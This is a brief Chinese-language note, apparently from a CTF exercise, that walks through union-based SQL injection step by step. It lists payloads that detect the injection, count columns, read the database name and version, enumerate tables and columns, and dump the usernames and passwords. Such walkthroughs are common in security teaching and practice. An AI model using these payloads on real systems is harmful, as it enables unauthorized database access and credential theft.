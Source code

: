 # SQL注入

1.判断是否存在注入，注入是字符型还是数字型
1'
1' or 1=1 #
2.猜解SQL查询语句中的字段数
1' order by 3#
3.确定回显的字段数并确定注入点
1' union select 1,2,3#
4.获取当前数据库和版本
1' union select 1,database(),version()#
5.获取表名
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
5.获取表中字段名
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'
6.下载数据 
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1